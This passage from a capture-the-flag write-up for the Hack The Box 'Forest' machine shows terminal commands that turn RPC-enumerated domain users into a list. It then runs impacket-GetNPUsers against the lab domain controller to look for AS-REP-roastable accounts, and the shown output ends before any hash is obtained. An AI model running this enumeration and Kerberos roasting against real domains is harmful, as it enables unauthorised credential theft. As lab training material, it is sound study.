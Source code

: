 ```
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest]
└─$ nano users_from_rpc.txt
                                                                                                                                                                                                                                        
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest]
└─$ cat users_from_rpc.txt|head                                                           
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
                                                                                                                                                                                                                                        
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest]
└─$ cat users_from_rpc.txt|awk -F "[" '{print $2}'|awk -F ']' '{print $1}' > users.txt
                                                                                                                                                                                                                                        
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest]
└─$ cat users.txt|head
Administrator
Guest
krbtgt
DefaultAccount
$331000-VK4ADACQNUCA
SM_2c8eef0a09b545acb
SM_ca8c2ed5bdab4dc9b
SM_75a538d3025e4db9a
SM_681f53d4942840e18
SM_1b41c9286325456bb
                                                                                                                                                                                                                                        
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest]
```
- Since i have users, i can start by check if any user was disable kerberos preauthentication and i will use tool called impacket-GetNPUsers

```
┌──(blackninja㉿arena)-[~/CTF/HTB/Forest]
└─$ impacket-GetNPUsers htb.local/ -no-pass -dc-ip 10.10.10.161 -format hashcat -outputfile hashes.asreproast -usersfile users.txt                  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User HealthMailboxc3d7722 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxfc9daad doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailboxc0a90c9 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox670628e doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox968e74d doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox6ded678 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User HealthMailbox83d6781 doesn't have UF_DONT_REQUIRE_PREAUTH set
```